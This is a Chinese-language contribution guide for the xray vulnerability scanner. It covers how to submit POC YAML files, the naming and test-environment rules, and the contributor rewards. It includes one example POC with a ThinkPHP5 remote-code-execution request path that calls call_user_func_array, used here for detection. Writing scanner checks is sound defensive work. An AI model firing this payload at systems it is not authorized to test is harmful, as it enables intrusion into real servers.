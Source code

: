 # 贡献 POC

xray 社区版经过数个版本的更迭，基本覆盖了对常见漏洞的 fuzzing, 稳定性和扫描效果上都有了很大的提高，在此感谢每一位为社区版反馈 bug 和要求功能改进的同学。但是漏洞扫描器这种的安全工具，POC 的质量和数量是一个不可绕过的鸿沟，而个人乃至团队的力量在这种事情面前也是微不足道的，因此，我们希望借助社区的力量来帮助 xray 更快更好的成长。一方面我们会通过大家的反馈对其不断进行迭代优化, 另一方面是集结大家的力量壮大它的 POC 库。

从以往经验来看，POC 宁缺毋滥。一个有问题的 POC 可能会影响到 xray 整体的运行。因此所以我们对社区提交的 POC 有着较为严格的约束。贡献者在提交 POC 的时，需要提供相应的可以复现的测试环境，测试环境以 docker 镜像的方式提供。至于难以做成 docker 镜像的漏洞，可以不提供。

## 流程

1. 贡献者以 PR 的方式向 github xray 社区仓库内提交 POC， 提交位置: [https://github.com/chaitin/xray/tree/master/pocs](https://github.com/chaitin/xray/tree/master/pocs)
2. PR 中根据 Pull Request 的模板填写 POC 信息
3. 内部审核 PR，确定是否合并入仓库
4. 每次发布新版时，CI 拉取 Github 仓库，并将社区的 POC 打包进社区版共享给大家

## POC 贡献规范
在提交之前请搜索仓库的 pocs 文件夹以及 Github 的 Pull request, 确保该 POC 没有被提交。

1. 期望近三年内主流框架，CMS等出现的漏洞，部分小众 CMS 的 POC 可能不被收录
1. 漏洞如果能通过回显检测，就不要使用反连平台，鼓励将公开的无回显的POC改为有回显的。
1. 提交的 POC 如果比较简单，请直接保持单文件不要创建子目录； dockerfile 等文件不要放在仓库中，直接放在 PR 中即可。
1. poc 请以 `.yml` 结尾，而不是 `.yaml`
1. poc name 一定是 `poc-yaml-` 开头，后面应该是 `[框架名/服务名/产品名等]-[cve编号]` 或者 `[框架名/服务名/产品名等]-[通用漏洞名称]`。比如 `elasticsearch-cve-2014-3120` 或者 `django-debug-page-info-leak`。无特殊情况，应该都是小写。poc 的 name 应和 yml 的文件名相同，比如上述 poc 的文件名应为 `django-debug-page-info-leak.yml`
1. poc 贡献者需要在 detail 中增加 author 字段，格式为 `name(link)`，name 可以为昵称，link 为可选项，一般使用个人 GitHub 首页或者博客链接等。
1. 对于测试环境，需要可以增加在 detail 中 `test_env: http://github.com/hacker/cve-xxx-xxx`。如果没有测试环境，可以把地址改为一篇权威的漏洞分析文章地址。
1. 提交后，可以加一下我的微信 `emVtYWw2NjY=`(自行解码) ，方便拉大家进群以及发放福利等

说了这么多，有个例子会更清晰些，如果要提交 thinkphp5 的 rce 漏洞，那么 `poc-yaml-thinkphp5-controller-rce.yml` 文件的内容为

```yaml
name: poc-yaml-thinkphp5-controller-rce
rules:
  - method: GET
    path: /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=printf&vars[1][]=a29hbHIgaXMg%25%25d2F0Y2hpbmcgeW91
    expression: |
      body.bcontains(b'a29hbHIgaXMg%d2F0Y2hpbmcgeW9129')

detail:
  author: chaitin(https://github.com/chaitin)
  test_env: https://github.com/vulhub/vulhub/tree/master/thinkphp/5-rce
```

### 奖励措施

提交 POC ，即可获得与 xray 社区版内部大佬技术切磋交流的机会。提交 PR 过程中会有内部大佬审核，帮助改进POC的实现，共同进步。同时，为了感谢提交 POC 的同学的辛苦付出, 我们准备了一份厚礼: 

1. 提交1个 POC 并被收录，可进入 xray 社区核心贡献者群，与 xray 社区版核心成员共同探讨漏洞检测算法，同时可获得 xray 社区版文化衫。
1. 提交3个 POC 并被收录可获得不定期约饭活动入场券
1. 提交5个 POC 并被收录可获得 **xray 社区高级版**，高级版支持更多检测插件，诸如 struts、 weblogic 等漏洞一键检测
1. 线下参与 xray 社区技术分享的机会
1. 其他不定期的内部福利
